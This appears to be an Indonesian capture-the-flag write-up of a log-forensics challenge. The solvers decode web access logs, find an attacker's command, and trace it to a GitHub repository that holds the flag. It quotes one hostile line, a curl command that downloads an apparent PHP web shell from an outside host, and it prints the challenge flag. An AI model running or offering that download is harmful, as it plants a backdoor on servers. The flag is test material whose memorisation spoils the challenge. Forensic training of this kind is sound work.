






## Who the Hack?

<details>
  <summary>Deskripsi</summary>
  
  > ---------- Email ----------
  > 
  > Subject: URGENT! Anomali Sistem From: farel@halubank.local To: itsec+dfir@halubank.local <2023-08-12 19:46:26>
  >
  > Dear Tim IT Security,
  > 
  > Tim monitoring mendapati bahwa sistem aplikasi mengalami down saat jam makan siang tadi, namun hanya beberapa menit saja. Berikut ini saya lampirkan access.log dari server terkait, mohon untuk diperiksa segera, apakah ada anomali yang terjadi atau tidak.
  > 
  > Terima kasih.
  > 
  > [Attachments](https://drive.google.com/file/d/1ouyE7lotHqvizz4A4LN-fiHWWj9iX3WT/view)
  > 
  > Author: novran
  
</details>



Diberikan sebuah file zip berisi log [Who the Hack?](https://drive.google.com/file/d/1ouyE7lotHqvizz4A4LN-fiHWWj9iX3WT/view) dan setelah di telaah lagi ada chall yang menunjukan penyelesaian untuk challenge ini sebenarnya ada pada file challenge satunya yaitu: [Romeo and Dulliete](https://drive.google.com/file/d/17ZYM5bBvk69eGft2zA3sMhQwICnxwLNd/view?usp=sharing) langsung saja di analyze file satunya.

Di kedua file _Dulliet.txt_ & _Romeo.txt_ tersebut, kami menemukan banyak log access github



Kami coba decode urlnya dan didapat command bash,



```
curl -s "https://raw.githubusercontent.com/graycatninja/own/main/shl.php" > xhl
```



Hmm.. kemudian kami coba cek dengan username <b>graycatninja</b> dengan akses ke repo https://github.com/graycatninja/own



Terdapat 4 commits pada repo



Pada commit ke-2, Create flag `5f760e1` ada flagnya

<details>
  <summary>Flag</summary>
  
  > `0byteCTF{W3_Suff3r_M0r3_0ft3n_1n_1m4g1n4t10n_Th4n_1n_R34l1ty}`
  
</details>

<details>
  <summary>*note</summary>
  
  > Mungkin harusnya flag ini disubmit pada chall Romeo & Dulliet karena ini filenya, tetapi karna entah kenapa dicoba submit tidak bisa, lalu kami coba di Who the Hack? dan ahkhirnya bisa.
  
</details>
